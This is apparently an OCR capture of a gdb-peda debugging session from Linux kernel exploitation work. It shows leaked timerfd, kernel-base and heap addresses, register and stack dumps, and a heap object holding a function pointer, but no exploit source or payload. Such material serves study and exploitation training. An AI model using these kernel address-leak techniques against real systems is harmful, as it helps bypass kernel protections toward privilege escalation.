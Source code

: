 ```assembly
[*] Leak timerfd_proc address: 0xffffffff96302a00
[*] Leak kernel_address: 0xffffffff96200000
[*] Leak heap_address: 0xffffa1304029ae00



[----------------------------------registers-----------------------------------]
RAX: 0xffffffff96302a00 --> 0xfa5b9c53e5894855 
RBX: 0xffffffff96a3e0a0 --> 0xffffa1304029ae00 (0xffffa1304029ae00)
RCX: 0x0 
RDX: 0xfffffffe 
RSI: 0x0 
RDI: 0xffffa1304029ae00 (0xffffa1304029ae00)
RBP: 0xffffade640003f68 --> 0xffffade640003f88 --> 0xffffade640003fa0 --> 0xffffade640003fb0 --> 0xffffade640003fd0 --> 0xffffade640003fe8 (--> ...)
RSP: 0xffffade640003f18 --> 0xffffffff9626f2ac --> 0xffff7a840fc085fa 
RIP: 0xffffffff96302a00 --> 0xfa5b9c53e5894855 
R8 : 0x0 
R9 : 0xffffffff96a3e040 --> 0x100000000 
R10: 0x0 
R11: 0x0 
R12: 0x6649b0fcc 
R13: 0xffffffff96a3e080 --> 0xffffffff96a3e040 --> 0x100000000 
R14: 0xffffa1304029ae00 (0xffffa1304029ae00)
R15: 0xffffffff96a3e080 --> 0xffffffff96a3e040 --> 0x100000000
EFLAGS: 0x6 (carry PARITY adjust zero sign trap interrupt direction overflow)
[-------------------------------------code-------------------------------------]
   0xffffffff963029f6:	call   0xffffffff96274fd0
   0xffffffff963029fb:	jmp    0xffffffff963029d8
   0xffffffff963029fd:	nop    DWORD PTR [rax]
=> 0xffffffff96302a00:	push   rbp
   0xffffffff96302a01:	mov    rbp,rsp
   0xffffffff96302a04:	push   rbx
   0xffffffff96302a05:	pushf  
   0xffffffff96302a06:	pop    rbx
[------------------------------------stack-------------------------------------]
0000| 0xffffade640003f18 --> 0xffffffff9626f2ac --> 0xffff7a840fc085fa 
0008| 0xffffade640003f20 --> 0x6649b0fcc 
0016| 0xffffade640003f28 --> 0x96271db6 
0024| 0xffffade640003f30 --> 0x6 
0032| 0xffffade640003f38 --> 0xffffffff96a3e040 --> 0x100000000 
0040| 0xffffade640003f40 --> 0x6 
0048| 0xffffade640003f48 --> 0x6649b0fcc 
0056| 0xffffade640003f50 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Thread 1 hit Breakpoint 2, 0xffffffff96302a00 in ?? ()
gdb-peda$ x/30gx 0xffffa1304029ae00
0xffffa1304029ae00:	0xffffa1304029ae00	0x0000000000000000
0xffffa1304029ae10:	0x0000000000000000	0x0000000000000001
0xffffa1304029ae20:	0x0000000000000001	0xffffffff96302a00
0xffffa1304029ae30:	0xffffffff96a3e080	0x0000000000000000
0xffffa1304029ae40:	0x0000000000000000	0x0000000000000000
0xffffa1304029ae50:	0x0000000000000000	0x0000000000000000
0xffffa1304029ae60:	0x0000000000000000	0x0000000000000000
....
```
